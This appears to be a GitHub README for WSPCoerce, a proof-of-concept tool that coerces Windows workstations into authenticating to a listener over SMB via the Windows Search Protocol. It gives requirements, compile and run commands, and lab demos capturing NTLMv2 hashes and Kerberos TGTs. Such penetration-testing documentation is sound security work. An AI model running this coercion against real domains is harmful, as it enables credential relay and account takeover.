 # WSPCoerce

PoC to coerce authentication from Windows hosts using MS-WSP

## What is this?

It's a tool to interact with remote hosts using the Windows Search Protocol and coerce authentication. The target host will connect over SMB to the listener host using the machine account.

## What can I do with this?

- Relay the authentication from the target to another system (if SMB signing is disabled)
- Obtain the TGT of the target (if coercing to a system where unconstrained delegation is enabled)

## What are the requirements?

- Must be running in the context of a domain user (no specific privileges required on target system AFAIK)
- 445/TCP open on the target system
- 445/TCP open on the listener system
- Windows Search Service running on the target system

Note: The Windows Search Service is *NOT* enabled by default on Windows Server so in practice this attack is only effective against Windows workstations.

## How do I compile this?

```
c:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe WSPCoerce.cs
```

## How do I run this?

```
WSPCoerce.exe <target> <listener>
```

Notes:
- Can't use an IP address for the target, use a short hostname only (no FQDN)
- Make sure to use a hostname or FQDN for the listener if you want to receive Kerberos auth

## Example demo 1 - Machine account NTLMv2 capture

- Target: LABWS1
- Listener: Kali box

Search request sent to LABWS1:

![](demo/wsp_2.PNG)

NTLMv2 captured on Responder:

![](demo/wsp_labws1_ntlmv2.png)

## Example demo 2 - Coercion to unconstrained delegation

- Target: LABWS1
- Listener: LABSRV1

Search request sent to LABWS1:

![](demo/wsp_1.PNG)

Kerberos TGT on listener (LABSRV1):

![](demo/wsp_tgt_1.png)

